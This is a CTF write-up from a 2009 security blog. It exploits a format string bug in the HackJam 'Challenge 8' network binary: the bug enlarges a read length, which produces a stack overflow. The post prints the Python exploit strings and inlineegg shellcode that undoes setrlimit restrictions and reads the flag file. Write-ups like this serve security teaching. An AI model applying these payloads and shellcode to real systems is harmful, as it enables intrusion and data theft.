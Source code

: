 ```yaml
---
title: 'Writing neat shellcode using inlineegg &#8211; Sapheads HackJam 2009 Challenge 8'
author: thaidn
excerpt: |
  |
    Challenge 8 is a trivial format string bug, but one needs neat shellcode to get the flag.
layout: post

shorturls:
  - 'a:4:{s:9:"permalink";s:108:"https://www.vnsecurity.net/2009/10/writing-neat-shellcode-using-inlineegg-sapheads-hackjam-2009-challenge-8/";s:7:"tinyurl";s:26:"http://tinyurl.com/ya5wpdl";s:4:"isgd";s:18:"http://is.gd/aOt83";s:5:"bitly";s:20:"http://bit.ly/6aVAwT";}'
tweetbackscheck:
  - 1408358990
twittercomments:
  - 'a:0:{}'
tweetcount:
  - 0
category:
  - 'CTF - CLGT Crew'
---
```

## 1. Analysis

First thing first:

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">$ file t1g3rd

t1g3rd:
ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux
2.6.15, dynamically linked (uses shared libs), not stripped</pre>

t1g3rd is a regular network service that when executed would listen on port 7384. When a client comes in, the binary forks a new child process, and calls a function named handleClient. At the begining of handleClient, t1g3rd calls setrlimit(2) to disallow this child process to open new file or fork a new process. This makes the binary a perfect example to illustrate how to write neat shellcode using [inlineegg][1] :-D.

handleClient then goes on to read two inputs, which are 19 bytes long and 512 bytes long respectively, from the client. The first input is sent back to the client using printf(3), and the second is just discarded.

## 2. Vulnerability

As one can guess, the printf(3) call at 0x08048c52 that the binary uses to send the first input back to the client is vulnerable to format string attack. The format string is limited to 19 bytes long, so one needs to choose where to write with which value wisely.

## 3. Exploit 

Usually, with this kind of format string bug, one could overwrite the RIP of handleClient or the RIP of the vulnerable printf(3) call to loop back to the begining of handleClient, so that the binary would read(2) another 19 bytes, and the next printf(3) call would allow her to overwrite some more bytes to somewhere else such as a GOT entry. One could also redirect to right above the first read(2) call, so that it would read(2) more than 19 bytes, which in turn allows him to overwrite as many bytes to any where as he wants. But we don&#8217;t need to use these techniques here.

Right after the vulnerable printf(3) call is another read(2) call at 0x08048c7f whose pseudo-code looks like:

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">read(0, input_buffer2, length)</pre>

where length is an integer stored at $EBP &#8211; 0&#215;228 on the stack. Before this call, at 0x08048b43, length is assigned a default value which is 512. What if we overwrite length so that it becomes 1000? Since input_buffer2 is just 512 bytes long, and we read(2) in 1000 bytes, we would get a classic stack-based buffer overflow.

Here are two exploit strings that we send to the binary:

<pre class="brush: python; gutter: false; title: ; notranslate" title=""># overwrite length so that read(0, input_buffer2, length) at 0x08048c7f reads more than 512 bytes
length_slot = 0xbf9c1978 #original length: 0x0000200
new_length = 1000
msg1 = struct.pack('I', length_slot) + '%' + str(new_length) + 'c%134$hn' # this is 18 bytes


# msg2 = SHELLCODE + RET
shellcode = SHELLCODE # shellcode's length should a multiple of 4
msg2 = shellcode + 'x84x19x9cxbf' * ((0x224 - len(msg2))/4) # 0xbf9c1984 = input_buffer2

</pre></p> 

## 4. Shellcode 

Now I can make t1g3rd run my shellcode, but as I said in Section 1, the binary disallows opening new file or forking new process. That means the shellcode can&#8217;t do anything useful, i.e. reading the key file or returning a shell. Or can it? What if our shellcode calls setrlmit(2) to set the resource limitations back to normal values?

Then comes the question of the day: how to write shellcode that calls setrlmit(2)? Or a more generic question: how to write shellcode that calls syscalls that accept structures as parameters? Actually, there are 3 ways to write that kind of shellcode: a) write it using Assembly; b) or write a C program, and use [ShellForge][2] to get out the respective shellcode; c) or use inlineegg to write it in Python.

As the title of this entry suggests, I&#8217;ll go with inlineegg. To be honest I hadn&#8217;t written this kind of shellcode before, so it took me an hour or so to figure out how to do it with inlineegg. This is just basic knowledge, but I hope somebody would find my work useful.

Here is the shellcode:

<pre class="brush: python; gutter: false; title: ; notranslate" title="">1.    egg = InlineEgg(Linuxx86Syscall)
2.    egg.addCode(egg.micro.pushTuple((100, 200)))
3.    egg.setrlimit(7, egg.micro.varAtTop().addr())    # RLIMIT_NOFILE
4.    buff = egg.alloc(20)
5.    fd = egg.save(-1)
6.    fd = egg.open(flag_file)
7.    nr = egg.read(fd, buff.addr(), 20)
8.    egg.write(0, buff.addr(), nr)
9.    #egg.execve('/bin/cat',('cat', flag_file)) # easier way
10.   egg.exit(0)</pre>

The most important lines are 2 and 3 which I would explain shortly. If you want to understand the rest, I suggest you reading inlineegg&#8217;s documetation and examples.

The prototype of setrlimit(2) is:

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">int setrlimit(int resource, const struct rlimit *rlim); </pre>

where the second parameter is a pointer to a rlimit structure which is:

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">struct rlimit {
 rlim_t rlim_cur;  /* Soft limit */
 rlim_t rlim_max;  /* Hard limit (ceiling for rlim_cur) */
};</pre>

So in order to call setrlimit(2), we need to pass to it an address that points to a rlimit structure containing more relaxing values of rlim\_cur and rlimit\_max.

At line 2, I push a tuple (100, 200) to the stack. egg.micro.pushTuple((100, 200)) would return the Assembly code that pushes 100 and 200 to the stack, and egg.addCode of course would add that code to the egg.

At line 3, egg.micro.varAtTop() would return the variable (see class Variable in inlineegg.py) at the top of the stack. Since we just push 100 and 200 to the stack, this variable would contain these two integers. I call addr() on this variable to get its address, and pass the result as the second argument of the setrlimit(2) syscall.

And that&#8217;s it! Is it neat? He he he. In the next writeup, I&#8217;ll illustrate how to use inlineegg to write even sneakier shellcode. Stay tuned and happy hacking!

 [1]: http://oss.coresecurity.com/projects/inlineegg.html
 [2]: http://www.secdev.org/projects/shellforge/